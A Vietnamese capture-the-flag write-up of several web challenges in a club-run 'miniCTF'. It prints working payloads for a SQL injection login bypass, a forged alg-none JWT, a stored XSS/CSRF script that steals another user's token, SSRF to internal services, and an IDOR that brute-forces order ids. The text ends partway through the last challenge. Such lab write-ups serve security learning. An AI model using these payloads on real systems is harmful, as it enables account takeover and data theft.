Là 1 miniCTF do clb ISP tổ chức, gồm 36 bài(khéo thế :>>)

mảng web có 6 bài , mình sẽ đi từ bài web 1 đến hết nhé
## Web1

**Đề bài:**

đề bài ko có chi, chỉ có mỗi tạo instance

mình tạo instance và copy link và vào web, web có giao diện như sau: 


nhìn thế này cx đoán là sqli rồi nên mình test bằng cách nhập 1 dấu ' vào, và nó trả lại kết quả
```
Query error: near "12345678": syntax error
```
như vậy đúng là sqli rồi, mình nhập 
```
admin' ORDER BY 1 --
bừa 1 pass 12345678
```
và nhận đc flag

**FLAG** : miniCTF{l3g4cy_l0gin_qu3ry_n3v3r_di3s}

## Web2
**Đề bài:**

Tương tự web1, đề bài web 2 chỉ có cha, mình copy instance và vào web:

ta thấy được gợi ý:
```
Quan sát cách server cấp & kiểm tra token.
```
Để quan sát cách server cấp & kiểm tra token, mình sử dụng burpsuite, mình tạo tài khoản và đăng nhập:

mình vào jwt.io decode và nhận lại
```
Header:
{
  "alg": "HS256",
  "typ": "JWT"
}
Payload:
{
  "id": 1,
  "username": "dang",
  "role": "user",
  "iat": 1789913681,
  "exp": 1790518481
}
```
Dựa vào đó, mình chỉnh sửa token để alg none thay vì signature HS256 và đổi role thành admin và send để lấy flag
```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJpZCI6MSwidXNlcm5hbWUiOiJkYW5nIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzg5OTEzNjgxLCJleHAiOjE3OTA1MTg0ODF9.
```


**FLAG:** miniCTF{jwt_none_alg_hehehehe}

## facebook
**Đề bài:**

Gợi ý: lương tâm của bạn có cho phép bạn đánh đổi soul để lấy flag? soul của bạn nằm ở /api/me/soul

Mình tạo tài khoản và đăng nhập


mình ấn vào giao dịch với bùi huy và thấy:



Như vậy ta phải kiếm 10 soul để trao đổi với bùi huy , mình vào /api/me/soul:
```
{"username":"nhincaigi","soul":"soul_37dc034cd69c223e11fc53c4cca275a36426"}
```
mình vô phần tin nhắn và thấy 1 người dùng Codex gửi cho mình 1 tin nhắn như sau
```
r.json()).then(j=>fetch('/api/devil/submit',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({contract_key:'contract_570e0fb231609809a69d6a1f1d8110a1ecde',soul:j.soul})}))">
```
OK Codex! ta có thể thấy đây là 1 payload tấn công XSS kết hợp với CSRF/API để lấy "soul" của người khác
mình sửa lại payload đó bằng cách thay contract key của mình và send cho những người khác và lấy flag.

**FLAG**: miniCTF{xss_messenger_soul_contract}

## threads
**Đề bài:**


mình dô web, sau 1 hồi loanh quanh thì thấy acc admin có vt nnay

*admin xinh quớ hihi
```
Robots and help pages are back after the asset-service maintenance window.
```
ngoài ra , 1 tài khoản khác cũng có gợi ý:


Dựa vào những gợi ý trên, mính có thể đoán đây là lỗ hổng SSRF

Bob có gợi ý cho ta rằng:
```
trafic tells stories. read the boring request
```
vì thế , mình tắt filter của burpsuite đi và đọc all req

chúng ta thấy:
```
POST /api/media/avatar
{"image_url":"http://threads-web:3000/uploads/1788418139845-664218392cbe4.jpg"}
```
server cho phép chúng ta post ảnh lên và sau đó server sẽ tải ảnh đó về
```
"If a service is internal-only, the network diagram matters more than the URL bar."

"A good proxy tells you exactly what it refused. That is often more useful than a success."
```
dựa vào đó và gợi ý của admin, có thể flag nằm ở robots.txt nên mình cố gắng truy cập thử thông qua việc khai thác ssrf POST /api/media/avatar

như vậy, chúng ta có thể thấy:

-Máy chủ nội bộ đang chạy một dịch vụ tên là Threads Asset Service.

-Nó để lộ các endpoint công khai và cả file quy tắc /robots.txt

mình cố lấy file robots.txt và response đã trả lại cho mình như sau
```
{
  "error": "unsupported media type",
  "received": "text/plain",
  "allowed": [
    "image/png",
    "image/jpeg",
    "image/webp",
    "image/gif"
  ],
  "preview": "User-agent: *\nDisallow: /render-help\n"
}
```
ta thấy được /reder-help\n
mình đổi payload và truy cập trang web này
```
{
    "image_url": "http://threads-assets:8080/render-help"
}
```
cuối cùng mình nhận được
```
{
  "error": "unsupported media type",
  "received": "text/plain",
  "allowed": [
    "image/png",
    "image/jpeg",
    "image/webp",
    "image/gif"
  ],
  "preview": "Threads Asset Service\n\nInternal image renderer:\nGET /render?url=\n\nExample:\nGET /render?url=http://threads-admin:5000/\n\nThe renderer returns image/png previews for internal maintenance pages.\n"
}
```
như vậy, chúng ta đã có kết quả, mình chỉnh sửa payload và lấy được flag thông qua trang admin
```
{
    "image_url": "http://threads-assets:8080/render?url=http://threads-admin:5000/"
}
```
**FLAG**: miniCTF{avatar_ssrf_renderer_blackbox}

## shopee
**Đề bài:**


mình truy cập vào web và đó là 1 trang clone shopee



thông thường , những bài về những trang thương mại điện tử có liên quan đến lỗ hổng IDOR, sau 1 hồi le va le ve thì mình có tìm được những thông tin sau:



mình đã truy cập file robots.txt, và có lẽ 'id 1021x' có thể là id của admin, mình cần tìm nơi để thực hiện lỗ hổng và mình phát hiện ra:
```
Referer: http://103.116.52.180:22270/user/purchase/10239
```
có lẽ đây chính là nơi để mình khai thác IDOR khi id 10239 nó khá giống với 1021x mà file robots.txt đã tiết lộ ra

quan sát history của burpsuite mình đã tìm được dẫn để idor:
```
/api/orders/10239
```
do gợi ý của robots.txt chỉ là 1021x nên mình chỉ cần bruteforce từ 1 đến 9 thay cho x là đã tìm được kqua
